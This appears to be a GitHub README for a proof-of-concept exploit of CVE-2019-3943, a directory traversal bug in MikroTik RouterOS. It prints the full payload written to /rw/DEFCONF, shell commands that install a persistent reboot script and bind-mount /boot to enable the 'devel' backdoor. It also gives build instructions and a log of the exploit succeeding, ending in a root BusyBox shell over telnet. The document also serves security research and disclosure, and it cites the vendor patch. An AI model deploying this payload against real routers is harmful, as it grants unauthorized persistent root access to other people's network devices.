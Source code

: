 # CVE-2019-3943 DEFCONF Proof of Concept

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC creates the file /rw/DEFCONF and then writes the following to it:

```
ok;
cp /rw/DEFCONF /rw/.lol;
mkdir -p /ram/pckg/lol/etc/rc.d/run.d/;
echo -e '#!/bin/bash\\n\\ncp /rw/.lol /rw/DEFCONF\\n' > /ram/pckg/lol/etc/rc.d/run.d/K92lol;
chmod 777 /ram/pckg/lol/etc/rc.d/run.d/K92lol;
mkdir /pckg/option;
mount -o bind /boot/ /pckg/option/
```

What does this do? After a reboot, it creates a persistent /pckg/option so that you can log in to the devel backdoor.

## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

## Usage

Against 6.42.12:

```sh
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_defconf/build$ ./cve_2019_3493_defconf -i 192.168.1.24 -u admin
Success!
albinolobster@ubuntu:~/routeros_internal/poc/cve_2019_3943_defconf/build$ telnet -l devel 192.168.1.24
Trying 192.168.1.24...
Connected to 192.168.1.24.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2019.02.08-10:41+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```
